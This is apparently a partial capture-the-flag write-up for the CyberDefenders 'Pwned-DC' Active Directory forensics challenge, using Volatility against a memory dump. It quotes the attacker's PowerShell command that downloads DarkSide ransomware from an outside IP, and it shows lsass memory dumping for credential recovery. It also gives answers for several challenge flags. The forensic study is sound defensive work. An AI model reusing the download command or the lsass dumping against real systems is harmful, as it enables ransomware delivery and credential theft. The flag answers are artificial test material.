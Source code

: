 <h1>Author: Panagiotis Fiskilis/Neuro</h1>

<h2>Challenge name: CyberDefenders: Pwned-DC</h2>

<h3>Description:</h3>

```
An ActiveDirectory compromise case: adversaries were able to take over corporate domain controller. Investigate the case and reveal the Who, When, What, Where, Why, and How.
```

<h3>Flags:</h3>

- Flag 1:

Q: <code>What is the OS Product name of PC01?</code>

---

```bash
volatility -f memory.dmp imageinfo |tee imageinfo.log
AutoVol.sh -f memory.dmp
```

- Flag 2:

Q: <code>On 21st November, there was unplanned power off for PC01 machine. How long was PC01 powered on till this shutdown?</code>

- Flag 3:

Q: <code>Who was the last logged-in user on PC01?</code>

- Flag 4:

Q: <code>What is the IP address of PC01?</code>

- Flag 5:

Q: <code>Which port was assigned to man service on PC01?</code>

- Flag 6:

Q: <code>What is the "Business.xlsx" LogFile Sequence Number?</code>

- Flag 7:

Q: <code>What is the GUID of the C drive on PC01 machine?</code>

- Flag 8:

Q: <code>What link did the user visit on 2021-11-22 at 19:45:55 UTC?</code>

- Flag 9:

Q: <code>How many bytes were received by firefox?</code>

- Flag 10:

Q: <code>What is the folder name where note.txt resides?</code>

- Flag 11:```Win2016x64_14393```

Q: <code>Which volatility 2 profile should be used to analyze the memory image?</code>

I used imageinfo from volatility2:

```bash
volatility -f memory.dmp imageinfo |tee imageinfo.log
```

Tried to analyze the sample with some generic Windows 10 profiles.

- Flag 12:```0x00000000040f7000```

Q: <code>Analyzing the memory what is the physical address of the SOFTWARE registry hive?</code>

For some automated memory enumeration I used a custom tool:

```
https://github.com/Panagiotis-INS/AutoVolatility
```

```bash
AutoVol.sh -f memory.dmp --profile=Win2016x64_14393
cat Win2016x64_14393_hivelist.log |grep "SOFTWARE"
```

![](./Images/flag12.png)

- Flag 13:

Q: <code>What is the master key of the user "0xMohammed"?</code>

```bash
cat Win2016x64_14393_pslist.log |grep "lsass" # we get the PID of lsass, 672
volatility -f memory.dmp --profile=Win2016x64_14393 memdump -p 672 -D dump

```

- Flag 14:

Q: <code>Using the provided word list, what is the password of the user "0xMohammed"?</code>

- Flag 15:

Q: <code>What is the name of the first malware detected by Windows Defender?</code>

We can either use: `https://www.nirsoft.net/utils/full_event_log_view.html`

OR

Use the `evtlog` plugin from volatility:

```bash
volatility -f memory.dmp --profile=Win2016x64_14393 evtlogs -D dump
```

OR 

Use evtxtract:

```bash
/opt/evtxtract/evtxtract ./memory.dmp >events.xml
```

- Flag 16:

Q: <code>Provide the date and time when the attacker clicked send (submitted) the malicious email?</code>

- Flag 17:

Q: <code>What is the IP address and port on which the attacker received the reverse shell? IP:PORT</code>

- Flag 18:

Q: <code>Analyzing the reverse shell. What is the first argument given to InternetErrorDlg API?</code>

- Flag 19:

Q: <code>What is the MITRE ID of the technique used by the attacker to achieve persistence?</code>

- Flag 20:

Q: <code>What is the attacker's C2 domain name?</code>

- Flag 21:

Q: <code>what is the name of the tool used by the attacker to collect AD information?</code>

- Flag 22:```3140```

Q: <code>What is the PID of the malicious process?</code>

We use the malfind plugin and see that the activity of this binary is very common in malwares that want to hide themselves.

![](./Images/flag22.png)

- Flag 23:```DarkSide```

Q: <code>What is the family of ransomware?</code>

```bash
mkdir dump
volatility -f memory.dmp --profile=Win2016x64_14393 procdump -p 3140 -D dump
md5sum dump/executable.3140.exe
```

We get the following md5:

```
573feeecd2f8d980dfa7a0f4bdcc3d6c
```

Use Virus total and get the flag:

```
https://www.virustotal.com/gui/file/f8dbe9a85ea88c79c7dbf0f884a85a2726f7fba874b9bded3e10bd084800cd5d
```

- Flag 24:```Invoke-WebRequest http://192.168.112.128:8000/svchost.exe -OutFile svchost.exe```

Q: <code>What is the command invoked by the attacker to download the ransomware?</code>

A standard way to download things such as malwares from powershell we use Invoke-WebRequest

```bash
strings memory.dmp |grep -i "Invoke-WebRequest"
```

![](./Images/flag24.png)

- Flag 25:

Q: <code>Provide the number of ransomware process' privileges that are enabled by default?</code>

- Flag 26:

Q: <code>What is the pool tag of the ransomware process?</code>

- Flag 27:

Q: <code>What is the address where the ransomware stored the 567-byte key under the malicious process' memory?</code>

- Flag 28:

Q: <code>What is the 8-byte word hidden in the ransomware process's memory?</code>

- Flag 29:

Q: <code>What is the virtual address of the device where the ransomware file where opened?</code>

- Flag 30:

Q: <code>What is the physical address where the ransomware file is stored in memory?</code>

- Flag 31:

Q: <code>What is the ransomware file's internal name?</code>

- Flag 32:

Q: <code>Analyzing the ransomware file. what is the API used to get the geographical location?</code>

